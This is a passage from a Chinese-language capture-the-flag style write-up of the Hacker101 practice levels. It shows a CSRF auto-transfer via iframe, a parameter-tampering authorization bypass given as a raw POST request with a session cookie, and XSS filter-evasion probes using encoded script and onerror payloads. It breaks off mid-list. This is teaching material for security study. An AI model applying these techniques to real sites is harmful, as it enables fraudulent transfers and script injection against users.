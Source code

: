 我当前登录的账号为 1711，只要访问此页面就会自动给 1811 转账 $1234。

在加载 iframe 中，提交 post 请求时使用的 cookie 是已登录用户 1711 的 cookie，故服务器会以为是 1711 发起的转账请求，并完成了转账操作。

![](https://delikely.github.io/2018/04/14/Hacker101-writeup/csrf.png)

### [](#权限绕过 "权限绕过")权限绕过

表单中添加 from，任意指定转账的发起方。测试时，直接在 POST 的参数中添加 from 参数。

```
POST /levels/0/ HTTP/1.1
Host: levels-a.hacker101.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: https://levels-a.hacker101.com/levels/0/
Cookie: SACSID=~AJKiYcHhGpu6PLMyeIsvo_lfjScoVo39CNylmh9BaI6_3jAwKOGUqDAEkKzhCofsSw7y1X_V7lFNTj-tT71ZWWRCNHLF5SKYWmuKHxyW2FWtd4optMQtaYzsYu6L2d5wTz3agQJU87kT7C-ibOhaAmoAGa1Rp5WZuqSdM2yXkxl7S3wV8NE3dzllcp72U7G6M35BEdv17DEQe0JdQPSfI6iAFB2Tmf1CbDGj2VCPnS7hBriVanmD8DkhZXft9G2yWjgSfWecvJO8_OLrMFi12Ogf9sbbLM78wVjV3pY_R-eSA-O8FjCBaTPvgRIGklnli_LM4YOAK7HS2o43B-ITpJoD5_FTZ9cGbQ
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

to=1811&amount=111&from=1221
```

权限绕过 参考 [https://octfive.cn/299](https://octfive.cn/299)

[](#level-1 "level 1")level 1
-----------------------------

![](https://delikely.github.io/2018/04/14/Hacker101-writeup/1517843759102.png)

### [](#XSS "XSS")XSS

1.  判断哪些符号被过滤输入
    
    测试`'<>:;"test` ，结果`<td>'&lt;&gt;:;"test</td>`，可以看出尖括号被过滤了。
    
2.  是否有部分标签没有被过滤
    
    测试测试`<img>`，结果`<td>&lt;img&gt;</td>`。`<img>` 被过滤。
    
3.  判断是否为递归转译
    
    测试`<im<img>g>`，结果`<td>&lt;im&lt;img&gt;g&gt;</td>`， 是递归转移。
    
4.  url 编码绕过，看服务端是否会还原 url 编码
    
    测试`%3cscript%3ealert(%22xss%22)%3c/script%3e`， url 编码没有被还原。script 关键字没有被过滤。
    
    后测试 unicode 编码`\u003cimg src=1 onerror=alert(/xss/)\u003e`、 `u003cimg src=1 onerror=alert(/xss/)u003e`
    